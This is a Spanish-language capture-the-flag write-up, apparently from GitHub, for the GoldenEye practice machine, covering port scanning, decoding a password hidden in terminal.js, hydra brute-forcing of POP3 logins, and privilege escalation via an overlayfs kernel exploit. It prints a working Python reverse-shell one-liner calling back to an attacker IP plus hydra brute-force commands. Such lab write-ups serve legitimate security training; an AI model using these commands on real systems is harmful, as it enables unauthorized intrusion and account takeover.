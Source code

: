 <h1 align="center"> GoldenEye </h1>

TEST conectividad

![image](https://github.com/user-attachments/assets/60d91b18-0000-4b62-b1e8-39c4749137db)

Escaner puertos

```
sudo nmap -sCV -T4 --min-rate 4000 -p- ip
```

![image](https://github.com/user-attachments/assets/01336cc0-8e6f-4884-89dd-ef27921b518c)

Nos encontramos con varios puertos que iremos investigando por ahora empezamos con la web puerto 80

Nos encontramos uan web un tanto rara que os manda a otro directorio /sev-home/

Cosa que nosotros primero de todo miraremos el archivo "terminal.js" posteriormente en el código veremos una contraseña codificada y parece ser que el usuario Boris

&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

![image](https://github.com/user-attachments/assets/66f3e4d3-3f70-42c3-a519-b7c25ea5a80d)

Ahora si que nos podemos ir al logeo y probar con

boris:InvincibleHack3r

Estamos dentro

![image](https://github.com/user-attachments/assets/35f432f2-6c99-45e3-84ad-5dce1b031438)

Dentro de está página nos estan diciendo que igual los servicios de correo deberiamos configurarlos mejor, si nos vamos a los puertos anteriormente vistos vemos el puerto 25 abierto con un smtp

Primero de todo enumeramos con telnet

```
telnet ip puerto
```

Si nos damos cuenta por el puerto 25 realmente no hay nada importante los puertos importantes son el "55006 y 55007"

Si tiramos hydar a estos puertos puede que saquemos credenciales cosa que hemos probado

```
hydra -l boris -P /usr/share/wordlists/rockyou.txt 10.10.14.251 -s 55007 pop3
```
Alfinal lo sacamos "secret1!"

Vemos que nos conectamos por telnet 

![image](https://github.com/user-attachments/assets/ef7018ad-a4f4-407a-aa6e-d80b9745a848)

Vemos que no encontramos cosas importantes pero sabemos otro usuario "natalya"

Si hacemos lo mismo de hydra sacamos la pass "bird"

El segundo email de natalya nos dan unas credenciales bastante imporantes

xenia:RCP90rulez!

Primero de todo hemos encontrado un dominio 10.10.7.77  severnaya-station.com

Vamos a añadirlo a los hosts

```
echo "10.10.7.77  severnaya-station.com" | sudo tee -a /etc/hosts
```
![image](https://github.com/user-attachments/assets/efb424e8-9182-4f1a-804b-46579a0f700b)

![image](https://github.com/user-attachments/assets/d6d30b8c-401d-434a-9a40-6a202315e8f4)

Nos logeamos con el usuario "xenia"

En mensajes vemos algo importante

![image](https://github.com/user-attachments/assets/cab0dddc-c49f-41e0-a9ff-ea78b12425db)

"doak"

Vamos a utilizar hydra

```
 hydra -l doak -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
```

doak:goat 

Nos conectamos por nuevo de telnet

![image](https://github.com/user-attachments/assets/6a7eb22f-8297-43ea-b6c5-9d92186aeb15)

Sacamos otras credenciales

dr_doak:4England!

Si nos metemos al perfil vemos una rchivo "s3cret.txt"

![image](https://github.com/user-attachments/assets/46267a64-13e1-49ba-a472-f130488456a4)


Si probamos a descargarlas

```
wget http://ip/dir007key/for-007.jpg
```

![image](https://github.com/user-attachments/assets/577af05a-772f-4763-9b7e-0ae8063a75da)

$ echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
xWinter1995x!

Tenemos una nueva pass

Hacemos uan rev shell con rlwreap y la subimos a setings path

```
rlwrap nc -nlvp 4444
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image](https://github.com/user-attachments/assets/137a7cce-7304-4ba5-a090-63e4f23f376a)

```
uname -a
```
para ver el kernel version

Está maquina es vulnerable a exploit overlafs

Creamos un nuevo usaurio usando clone "CLONE_NEWUSER|CLONE_NEWS"

Lo montamos en en /bin, cuando sea bisible cogemos losn ombres y lo cambiamos

hacemos un su

![image](https://github.com/user-attachments/assets/2447a0ed-729c-4ab6-b48c-968bf7ad04eb)


![image](https://github.com/user-attachments/assets/3f32ceb0-23d8-4fa1-a230-fb2b91a245a5)


